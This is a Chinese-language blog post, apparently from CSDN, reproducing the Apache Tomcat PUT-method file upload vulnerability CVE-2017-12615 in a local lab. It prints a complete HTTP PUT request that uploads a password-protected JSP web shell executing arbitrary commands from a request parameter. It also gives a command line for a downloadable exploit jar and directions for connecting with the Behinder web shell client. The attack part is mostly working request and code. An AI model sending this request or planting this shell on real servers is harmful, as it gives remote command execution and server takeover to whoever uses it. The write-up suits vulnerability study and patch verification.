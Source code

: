 **目录**

[漏洞复现:](#t0 "漏洞复现:")

[漏洞利用工具：](#t1 "漏洞利用工具：")

* * *

**漏洞环境：**当 Tomcat运行在Windows操作系统，且启用了HTTP PUT请求方法（例如，将 [readonly](https://so.csdn.net/so/search?q=readonly&spm=1001.2101.3001.7020) 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求上传任意文件，包括JSP类型的木马。  
**影响范围：**[Apache](https://so.csdn.net/so/search?q=Apache&spm=1001.2101.3001.7020) Tomcat 7.0.0 - 7.0.81

### **漏洞复现:**

Tomcat版本：Tomcat 7.0.39

打开Tomcat安装目录的 conf\\web.xml ，添加如下配置。在Tomcat7.0版本下默认配置是开启readonly的，需要手动配置readonly为false才可以进行漏洞利用。

![](https://img-blog.csdnimg.cn/20190904163634658.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

抓包，修改方式为OPTIONS，发现允许PUT方法

![](https://img-blog.csdnimg.cn/20190904164536939.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

将数据包修改为如下，点击 Go (我们可以将PUT的内容修改为其他类型的JSP[木马](https://so.csdn.net/so/search?q=%E6%9C%A8%E9%A9%AC&spm=1001.2101.3001.7020))

```
PUT /test.jsp/ HTTP/1.1      
Host: 127.0.0.1:8080      
Cache-Control: max-age=0      
Upgrade-Insecure-Requests: 1      
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8      
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8      
Connection: close      
Content-Length: 423       1
<%      1
    if("123".equals(request.getParameter("pwd"))){      1
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();      1
        int a = -1;                1
        byte[] b = new byte[1024];                1
        out.print("<pre>");                1
        while((a=in.read(b))!=-1){      1
            out.println(new String(b));                1
        }      2
        out.print("</pre>");      2
    }       2
%>
```


![](https://img-blog.csdnimg.cn/20190904164000874.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

访问网站根目录下的test.jsp

![](https://img-blog.csdnimg.cn/20190904164108733.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### **漏洞利用工具：**

[CVE-2017-12615-master.zip-网络攻防工具类资源-CSDN下载](https://download.csdn.net/download/qq_36119192/11665567 "CVE-2017-12615-master.zip-网络攻防工具类资源-CSDN下载")

```
java -jar CVE-2017-12615-Exploit.jar http://127.0.0.1:8080/ test.jsp 木马文件的路径
```


![](https://img-blog.csdnimg.cn/20190904165433833.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后，用冰蝎连接 http://127.0.0.1:8080/test.jsp 即可。

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)